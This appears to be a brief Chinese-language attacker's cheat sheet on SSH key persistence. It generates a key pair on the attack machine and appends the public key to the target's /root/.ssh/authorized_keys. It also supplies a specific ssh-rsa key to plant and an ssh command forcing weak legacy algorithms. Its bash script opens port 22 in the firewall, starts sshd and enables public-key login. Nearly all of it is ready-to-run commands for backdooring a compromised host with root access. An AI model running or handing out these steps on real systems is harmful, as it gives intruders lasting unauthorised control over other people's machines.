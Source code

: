 ### 配置

文件目录在 /etc/ssh

`ssh\_config`

```plain
PasswordAuthentication yes
```

`sshd\_config`

```plain
RSAAuthentication yes
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

攻击机生成 存放在`~/.ssh`

```plain
ssh-keygen -t rsa          #三次回车
id_rsa : 私钥
id_rsa.pub : 公钥
```

上传公钥至目标主机即可


路径  `/root/.ssh/authorized_keys`

```plain
ssh-keygen -t rsa
cd /root/.ssh
touch authorized_keys
cat id_rsa.pub >> authorized_keys 
```

或者导入本机的公钥

```plain
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIiRWbvrujmlEO1QNPXDeNejtuihzyNzqj+kAVIrE4RrEznN/9gmdkeCQ9Iw7Lp247PhHaoG770SmsFv/NKNlsgT/hYvSbHVVkX6lxsGlIjtbOTCxvuOIH7UmjVYxyGjeQBKjUZId3/XdWlUhMhEYkCX9pZPGZfyBhrJqcz/gdTyQkcMNJTk+pfOUlZ5M8WwGCp0+e0Kw3ybPGT0NPAdFrApRoLhRJy8EVVy+eQ6VkShZWljI5+6wZNZ6kxjSS/krE2dnESLYmgrgB2/tMjIOTjvljCSgau+zIsoAcGJzGjKTWNrHJiboMtdnW3AxUKjOGJitjc/9GjhL96d9GNjaL 
```

如果遇到 密钥不匹配问题

```plain
ssh -i id_rsa -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 -oHostKeyAlgorithms=ssh-rsa,ssh-dss root@IP
```

### 脚本

```plain
#!/bin/bash

# 添加防火墙规则允许 SSH 流量
iptables -A INPUT -p tcp --dport 22 -j ACCEPT || true

# CentOS 防火墙规则（永久生效）
firewall-cmd --zone=public --add-port=22/tcp --permanent || true
firewall-cmd --reload || true

# 启动 SSH 服务
/usr/sbin/sshd || true

# 配置 SSH 服务器
echo "RSAAuthentication yes" >> /etc/ssh/sshd_config || true
echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config || true
```